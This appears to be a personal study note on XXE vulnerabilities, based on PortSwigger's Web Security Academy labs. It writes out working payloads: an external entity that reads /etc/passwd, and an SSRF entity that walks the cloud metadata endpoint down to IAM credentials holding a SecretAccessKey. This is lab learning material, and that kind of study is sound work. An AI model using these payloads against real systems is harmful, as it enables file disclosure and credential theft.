 [[Portswigger]]
https://portswigger.net/web-security/xxe
(read this)
it is vulnerability  that let the attacker to interfere with application's processing XML , and sometimes allows the attacker to view server's system files  , and it can use to perform SSRF

and it can be arise because it use xml to transmit data between browser and the server and xml it self have a lot of potentially dangerous features

There are various types of XXE attacks:

- [Exploiting XXE to retrieve files](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files), where an external entity is defined containing the contents of a file, and returned in the application's response.
- [Exploiting XXE to perform SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks), where an external entity is defined based on a URL to a back-end system.
- [Exploiting blind XXE exfiltrate data out-of-band](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band), where sensitive data is transmitted from the application server to a system that the attacker controls.
- [Exploiting blind XXE to retrieve data via error messages](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-retrieve-data-via-error-messages), where the attacker can trigger a parsing error message containing sensitive data.

let's start with the labs and how we can use it : 
## first lab
in this this lab there's check product and it use XML to transmit data we can use it and make it transmit some files from  the server's system files , we can use this inject this code   `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`  in xml  to retrieve the file /etc/passwd and you can check for the most useful files here [[File Inclusion]] in Path Traversal section , anyway after the injection it will be like this ``

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

## second lab

in this lab we exploit XXE vulnerability to perform SSRF
and to do this use this command 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>`
then The response should contain "Invalid product ID:" followed by the response from the metadata endpoint, which will initially be a folder name. then you should add the name of the file , so if the folder name was `latest` you just edit this and it will be 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>`
and continue like this until it be like this 
`/latest/meta-data/iam/security-credentials/admin`
 
This should return JSON containing the `SecretAccessKey`.


there's more labs you should complete

## the end
### How to find and test for XXE vulnerabilities

The vast majority of XXE vulnerabilities can be found quickly and reliably using Burp Suite's web vulnerability scanner.

Manually testing for XXE vulnerabilities generally involves:

- Testing for [file retrieval](https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files) by defining an external entity based on a well-known operating system file and using that entity in data that is returned in the application's response.
- Testing for [blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind) by defining an external entity based on a URL to a system that you control, and monitoring for interactions with that system. [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) is perfect for this purpose.
- Testing for vulnerable inclusion of user-supplied non-XML data within a server-side XML document by using an [XInclude attack](https://portswigger.net/web-security/xxe#xinclude-attacks) to try to retrieve a well-known operating system file.
